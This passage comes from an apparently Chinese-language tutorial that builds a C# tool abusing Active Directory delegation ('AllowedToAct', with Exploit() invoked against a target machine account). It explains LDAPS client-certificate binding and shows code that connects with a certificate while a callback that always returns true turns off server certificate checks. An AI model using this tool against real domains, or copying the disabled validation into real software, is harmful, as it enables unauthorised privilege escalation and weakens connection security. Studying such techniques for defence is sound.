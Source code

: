 ```c#
                break;
            case "-CertPassword":
                CertPassword = args[i + 1];
                break;
            case "-Target":
                TargetMachineDN = args[i + 1].TrimEnd('$');
                break;
            case "-MachineAccount":
                MachineAccount = args[i + 1].TrimEnd('$');
                break;
            case "-MachinePassword":
                MachinePassword = args[i + 1];
                break;
        }
    }
    
    AllowedToAct allowedToAct = new AllowedToAct(Domain, Server, PortNumber, CertPath, CertPassword, MachineAccount, MachinePassword, TargetMachineDN);
    allowedToAct.Exploit();
}
```

### Establish a Connection to LDAPS

根据 Microsoft 有关 AD 技术规范（MS-ADTS）的官方文档 “*[5.1.1.2 Using SSL/TLS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/8e73932f-70cf-46d6-88b1-8d9f86235e81)*”，Active Directory 允许通过两种方式建立到 DC 的受 SSL/TLS 保护的连接：

> *Active Directory permits two means of establishing an SSL/TLS-protected connection to a DC. The first is by connecting to a DC on a protected LDAPS port (TCP ports 636 and 3269 in AD DS, and a configuration-specific port in AD LDS). The second is by connecting to a DC on a regular LDAP port (TCP ports 389 or 3268 in AD DS, and a configuration-specific port in AD LDS), and later sending an LDAP_SERVER_START_TLS_OID extended operation [RFC2830]. In both cases, the DC will request (but not require) the client's certificate as part of the SSL/TLS handshake [RFC2246]. If the client presents a valid certificate to the DC at that time, it can be used by the DC to authenticate (bind) the connection as the credentials represented by the certificate.*

- 第一种是通过受保护的 LDAPS 端口（AD DS 中的 TCP 端口 636 和 3269，以及 AD LDS 中的配置特定端口）连接到 DC。
- 第二种是通过常规 LDAP 端口（AD DS 中的 TCP 端口 389 或 3268，以及 AD LDS 中的特定配置端口）连接到 DC，然后发送 LDAP_SERVER_START_TLS_OID 扩展操作。

在这两种情况下，DC 都会请求（但不要求）客户端的证书作为 SSL/TLS 握手的一部分。如果客户端当时向 DC 出示有效证书，DC 可以使用它来验证（绑定）连接，作为证书所代表的凭据。

Windows .NET API 提供的 `System.DirectoryServices.Protocols.LdapConnection` 类支持通过 LDAP 会话选项 `SecureSocketLayer` 来启用连接上的安全套接字层（SSL），并可以通过 `ClientCertificates` 属性获取一个或多个要发送用于身份验证的客户端证书。

我们通过 `System.Security.Cryptography.X509Certificates.X509Certificate2` 类来导入 X.509 证书存储，并将导入的证书添加到 `LdapConnection` 的 `ClientCertificates` 属性作为连接 LDAPS 的凭据，最终与 LDAPS 建立受 SSL/TLS 保护的连接，如下所示。

```c#
public bool VerifyServerCertificateCallback(LdapConnection connection, X509Certificate certificate)
{
    return true;
}
public void ActiveDirectoryConnection(string Server, int PortNumber)
{
    LdapDirectoryIdentifier identifier = new LdapDirectoryIdentifier(Server, PortNumber);
    LdapConnection connection = new LdapConnection(identifier);
            
    if (!String.IsNullOrEmpty(this.CertPath) && !String.IsNullOrEmpty(this.CertPassword))
    {
        X509Certificate2 certificate = new X509Certificate2(this.CertPath, this.CertPassword, X509KeyStorageFlags.Exportable);
        connection.ClientCertificates.Add(certificate);
        connection.SessionOptions.VerifyServerCertificate = VerifyServerCertificateCallback;
        connection.SessionOptions.SecureSocketLayer = true;
```